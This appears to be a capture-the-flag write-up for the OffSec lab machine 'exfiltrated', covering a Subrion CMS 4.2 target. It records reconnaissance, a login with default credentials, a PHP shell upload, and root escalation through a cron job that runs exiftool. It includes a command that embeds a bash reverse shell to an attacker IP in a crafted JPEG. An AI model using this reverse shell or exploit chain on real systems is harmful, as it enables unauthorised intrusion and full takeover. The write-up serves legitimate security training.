





____
IP=192.168.179.163
Linux

# Nmap
| PORT   | STATE  | SERVICE    |
|--------|--------|------------|
| 22/tcp | open   | ssh        |
| 80/tcp | open   | http     |

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80 - http 

- exfiltrated.offsec

### whatweb

```python
http://exfiltrated.offsec/ [200 OK] Apache[2.4.41], Bootstrap, Cookies[INTELLI_06c8042c3d], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.179.163], JQuery, MetaGenerator[Subrion CMS - Open Source Content Management System], Open-Graph-Protocol, PoweredBy[Subrion], Script, Title[Home :: Powered by Subrion 4.2], UncommonHeaders[x-powered-cms], X-UA-Compatible[IE=Edge]
```

- Subrion CMS 4.2

### robots.txt

```txt
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

#### /admin panel

Default credentials --> admin:admin



Pentestmonkey shell.phar upload

https://vk9-sec.com/subrion-cms-4-2-1-arbitrary-file-upload-authenticated-2018-19422/


# PrivEsc

Sudo version 1.8.31 --> not vulnerable

## Pspy64



```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

## Exiftool



https://github.com/OneSecCyber/JPEG_RCE

```bash
https://github.com/OneSecCyber/JPEG_RCE.git
cd JPEG_RCE
exiftool -config eval.config runme.jpg -eval='system("/bin/bash -i >& /dev/tcp/192.168.45.222/1234 0>&1")' 
```

It will create malicious jpg file



https://github.com/mr-tuhin/CVE-2021-22204-exiftool
